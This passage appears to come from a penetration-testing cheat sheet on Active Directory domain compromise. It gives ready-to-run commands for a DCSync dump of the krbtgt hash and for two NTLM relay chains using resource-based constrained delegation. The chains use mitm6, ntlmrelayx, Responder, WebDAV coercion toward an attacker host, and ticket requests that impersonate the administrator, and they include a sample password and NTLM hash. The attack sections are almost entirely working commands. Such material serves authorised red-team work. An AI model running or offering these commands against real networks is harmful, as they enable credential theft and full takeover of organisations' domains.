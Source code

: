 ```bash
$ KRB5CCNAME=DC01.ccache getST.py -spn LDAP/DC01.megacorp.local megacorp.local/DC01 -k -no-pass -dc-ip 192.168.1.11 -impersonate administrator -self
# fire DCSync
$ KRB5CCNAME=administrator.ccache secretsdump.py -k -no-pass DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt'
```
{% endtab %}
{% endtabs %}




## DHCPv6 + WPAD + LDAPS NTLM Relay + RBCD

* [https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
* [https://chryzsh.github.io/relaying-delegation/](https://chryzsh.github.io/relaying-delegation/)
* [https://www.exploit-db.com/docs/48282](https://www.exploit-db.com/docs/48282)

{% file src="/.gitbook/assets/From Zero Credential to Full Domain Compromise (Haboob Team).pdf" %}

```
$ sudo ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access --no-smb-server -wh attacker-wpad --no-da --no-acl --no-validate-privs [-debug]
$ sudo mitm6 -i eth0 -d megacorp.local --ignore-nofqdn
```




## WebDav + LDAPS NTLM Relay + RBCD

- [https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb)
- [https://gist.github.com/zimnyaa/dcac97f3106e96053a1acb6ca9974e55#file-webclient-rbcd-sh](https://gist.github.com/zimnyaa/dcac97f3106e96053a1acb6ca9974e55#file-webclient-rbcd-sh)
- [https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/](https://pentestlab.blog/2021/10/18/resource-based-constrained-delegation/)

```
$ cme smb 10.10.13.0/24 -u snovvcrash -p 'Passw0rd!' -M webdav
$ sudo ntlmrelayx.py -t ldaps://DC01.megacorp.local --delegate-access --escalate-user 'PWNED-MACHINE$' --no-smb-server --no-da --no-acl --no-validate-privs
$ sudo python Responder.py -I eth0 -wfrd -P -v
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' attacker@80/test.txt VICTIM.megacorp.local
$ getST.py -spn cifs/VICTIM.megacorp.local MEGACORP/'PWNED-MACHINE$' -dc-ip 192.168.1.11 -hashes :fc525c9683e8fe067095ba2ddc971889 -impersonate administrator
```
